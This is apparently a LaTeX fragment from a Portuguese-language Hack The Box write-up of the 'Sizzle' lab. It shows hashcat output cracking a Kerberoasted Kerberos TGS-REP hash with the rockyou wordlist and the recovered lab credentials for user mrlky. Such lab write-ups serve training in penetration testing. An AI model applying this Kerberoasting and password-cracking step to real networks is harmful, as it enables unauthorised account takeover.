 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Bash, caption=Credenciais mediante Hashcat, linewidth=17.8cm]
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$c8b04860abd4d1d0917dc...2afb:Football#7

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*...ad2afb
Time.Started.....: Tue Jul 19 16:57:26 2022 (30 secs)
Time.Estimated...: Tue Jul 19 16:57:56 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   346.6 kH/s (0.62ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 11167232/14344385 (77.85%)
Rejected.........: 0/11167232 (0.00%)
Restore.Point....: 11166976/14344385 (77.85%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Forbidden1 -> Fondy
Hardware.Mon.#1..: Util: 98%

Started: Tue Jul 19 16:56:55 2022
Stopped: Tue Jul 19 16:57:58 2022

$ hashcat -m 13100 --show hash-kerberoasting.txt
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$c8b04860abd4d1d0917dc...2afb:Football#7\end{lstlisting}


Temos novas credenciais: \textbf{mrlky:Football\#7}\par

\clearpage
        \vspace*{-1.2cm}
\end{document}
